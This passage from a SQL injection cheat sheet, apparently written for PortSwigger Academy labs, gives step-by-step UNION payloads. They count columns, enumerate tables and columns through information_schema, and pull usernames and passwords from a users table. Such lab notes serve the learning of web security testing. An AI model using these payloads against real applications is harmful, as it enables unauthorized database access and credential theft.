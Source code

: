 ![SQL-4](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/blob/master/SQL%20Injection/Images/sqli-4.png)

<br><br>

![SQL-5](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/blob/master/SQL%20Injection/Images/sqli-5.png)

<br><br><br><br>


**This next section contains the specific techniques/payloads that were used in the labs, to extract sensitive information from the databases.**

<br>

### Exploitation Payloads

<br>

#### SQLi UNION Technique Example

* This technique works if the results of the query are being returned in the response, if not Blind techniques will have to be used.


* First, we need to determine how the application responds to a valid vs invalid query.  With this information we will be able to determine whether our injected payloads are valid or invalid.

<br>

1. **Determine how many columns are in the original query.**  The number of "nulls" injected needs to be adjusted:

```
' union select null, null--
```

2. **Determine which of those columns return String data:**

```
' union select 'Test', null--
```


3. **Extract table names from the database:**

```
' union select table_name, null from information_schema.tables--
```


4. **Extract column names from those tables:**

```
' union select null,column_name from information_schema.columns where table_name = 'users'--
```

<br>

**Retrieve multiple values in a single column:**

```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
